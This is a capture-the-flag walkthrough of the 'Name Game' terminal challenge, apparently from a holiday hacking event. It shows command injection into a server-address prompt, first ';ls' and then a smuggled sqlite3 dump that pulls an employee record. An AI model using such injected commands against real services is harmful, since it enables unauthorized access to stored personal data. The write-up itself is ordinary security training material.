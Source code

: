 The Name Game
=============

Minty Candycane provides hints for **Objective 2** after you help her with the *The Name Game* Cranberry Pi terminal challenge.

Terminal Challenge
------------------
.. code-block:: none

 We just hired this new worker,
 Californian or New Yorker?
 Think he's making some new toy bag...
 My job is to make his name tag.

 Golly gee, I'm glad that you came,
 I recall naught but his last name!
 Use our system or your own plan,
 Find the first name of our guy "Chan!"
 
 -Bushy Evergreen

 To solve this challenge, determine the new worker's first name and submit to runtoanswer.




 ====================================================================
 =                                                                  =
 = S A N T A ' S  C A S T L E  E M P L O Y E E  O N B O A R D I N G =
 =                                                                  =
 ====================================================================




  Press  1 to start the onboard process.
  Press  2 to verify the system.
  Press  q to quit.


 Please make a selection: 

After typing ``2`` the following appears [#f1]_ :

.. code-block:: none

 Validating data store for employee onboard information.
 Enter address of server: 

We observed that if you type ``;ls`` it works as a normal shell.

We see that the following items appear: ``menu.ps1``, ``onboard.db`` and ``runtoanswer``.
Therefore, by using ``; /usr/bin/sqlite3 onboard.db .dump | grep 'Chan'`` we get:

.. code-block:: none

 Validating data store for employee onboard information.
 Enter address of server: ; /usr/bin/sqlite3 onboard.db .dump | grep 'Chan'
 Usage: ping [-aAbBdDfhLnOqrRUvV] [-c count] [-i interval] [-I interface]
             [-m mark] [-M pmtudisc_option] [-l preload] [-p pattern] [-Q tos]
             [-s packetsize] [-S sndbuf] [-t ttl] [-T timestamp_option]
             [-w deadline] [-W timeout] [hop1 ...] destination
 INSERT INTO "onboard" VALUES(84,'Scott','Chan','48 Colorado Way',NULL,'Los Angeles','90067','4017533509','scottmchan90067@gmail.com');
 onboard.db: SQLite 3.x database
 Press Enter to continue...: 

Therefore mr Chan's name is Scott.